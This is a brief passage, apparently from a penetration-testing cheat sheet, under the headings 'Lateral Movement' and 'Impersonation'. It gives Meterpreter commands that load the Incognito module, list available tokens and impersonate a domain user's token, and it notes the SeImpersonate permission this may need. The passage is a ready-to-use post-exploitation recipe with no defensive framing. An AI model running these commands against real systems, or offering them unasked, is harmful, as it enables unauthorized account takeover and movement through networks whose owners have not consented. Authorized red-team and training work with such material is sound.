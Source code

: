 ### Lateral Movement

#### Impersonation

Requires a Meterpreter shell and the Incognito module.  You can impersonate a loaded ticket (Note: this may require the seimpersonate permission for the current user)

```bash
# From meterpreter session
load incognito
list_tokens -u
impersonate_token mydomain\\myuser
```

